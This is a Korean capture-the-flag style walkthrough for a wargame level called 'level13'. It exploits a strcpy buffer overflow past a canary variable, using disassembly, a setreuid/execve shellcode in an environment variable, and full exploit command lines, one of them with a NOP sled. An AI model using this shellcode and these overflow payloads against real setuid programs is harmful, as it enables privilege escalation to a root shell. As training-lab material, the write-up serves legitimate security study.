

# level 13

* id : `level13`
* pw : `have no clue`


`level11`, `level12` 와 유사한데 이번엔 버퍼오버플로울르 검사하는 변수 `i`가 추가되었다.
스택 구조가 buf가 있고 그 위에 i가 있을텐데, 지금까지의 방식이라면 무조건 `i`가 침범당해 프로세스가 자동으로 종료될 것이다.

```python
0x080484a0 <main+0>:    push   ebp
0x080484a1 <main+1>:    mov    ebp,esp
0x080484a3 <main+3>:    sub    esp,0x418                        # 0x418 = 1048
0x080484a9 <main+9>:    mov    DWORD PTR [ebp-12],0x1234567     # i 의 주소 == [ebp-12]
0x080484b0 <main+16>:   sub    esp,0x8                          # 더미 8바이트
0x080484b3 <main+19>:   push   0xc16
0x080484b8 <main+24>:   push   0xc16                            # 0xc16 =  3094
0x080484bd <main+29>:   call   0x8048370 <setreuid>
0x080484c2 <main+34>:   add    esp,0x10
0x080484c5 <main+37>:   cmp    DWORD PTR [ebp+8],0x1
0x080484c9 <main+41>:   jle    0x80484e5 <main+69>
0x080484cb <main+43>:   sub    esp,0x8
0x080484ce <main+46>:   mov    eax,DWORD PTR [ebp+12]
0x080484d1 <main+49>:   add    eax,0x4
0x080484d4 <main+52>:   push   DWORD PTR [eax]
0x080484d6 <main+54>:   lea    eax,[ebp-1048]                   # 1048 Byte 이동해서 배열에 복사
0x080484dc <main+60>:   push   eax
0x080484dd <main+61>:   call   0x8048390 <strcpy>
0x080484e2 <main+66>:   add    esp,0x10
0x080484e5 <main+69>:   cmp    DWORD PTR [ebp-12],0x1234567     # 12 Byte 이동해서 1234567 과 동일한지 확인
0x080484ec <main+76>:   je     0x804850d <main+109>
0x080484ee <main+78>:   sub    esp,0xc
0x080484f1 <main+81>:   push   0x80485a0
0x080484f6 <main+86>:   call   0x8048360 <printf>
0x080484fb <main+91>:   add    esp,0x10
0x080484fe <main+94>:   sub    esp,0x8
0x08048501 <main+97>:   push   0xb
0x08048503 <main+99>:   push   0x0
0x08048505 <main+101>:  call   0x8048380 <kill>
0x0804850a <main+106>:  add    esp,0x10
0x0804850d <main+109>:  leave
0x0804850e <main+110>:  ret
0x0804850f <main+111>:  nop
```

보면 strcpy 를 하는 목적지 배열, 즉 `buf` 는 `[ebp-1048]`에 존재하고, `i` 는 `[ebp-12]` 에 존재하는걸 알수있다.


즉 이런식으로 버퍼가 존재할 것이다.

i 는 항상 `1234567` 이어야 하므로, 그부분만 고려해서 입력을 하고 나머지는 더미로 채우면 될듯 하다. `level12` 풀이처럼 환경변수를 이용해 풀어보겠다.


```bash
export EGG=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep EGG
```


주소 `0xbffffc7b` 인것을 확인.

만약 이게 11번 문제와 동일하다면 쉘코드가 이렇게 될것이다.

```bash
./attackme `python -c 'print "A"*(1024+12+4+8+4+4) + "\x7b\xfc\xff\xbf"'`
```


역시 될리가 없다.

i 주소를 0x1234567로 덮고 다시 하면 된다. 당연히 리틀 엔디안 방식이다.




어떻게 넣어야 될지 모르겠다면 hxd 같은 헥사 에디터에서 변환기 통해서 보면 된다.

```bash
./attackme `python -c 'print "A"*(1024+12) + "\x67\x45\x23\x01" + "A"*(12) + "\x7b\xfc\xff\xbf"'`
```


GG!

---
## NOP Sled 이용한 풀이

이번엔 25byte 짜리 쉘코드를 이용해 보겠다.

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```


(참고로 level13에서는 info reg가 안되므로 level14계정으로 했다.)


`x/2000w 0xbfffe650` 해서 ESP 대충 뒤적거린 결과 대략 `0xbffffbc4` 근처에서 `argv`가 덮어씌워지는걸 볼수있다.

충분히 크니 0x100 정도 빼준 `0xbffffac4` 에서 NOP Sled 를 해보자.

```bash
./attackme `python -c 'print "\x90"*(1024+12-25) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" "\x67\x45\x23\x01" + "A"*(12) + "\xc4\xfa\xff\xbf"'`
```


GG!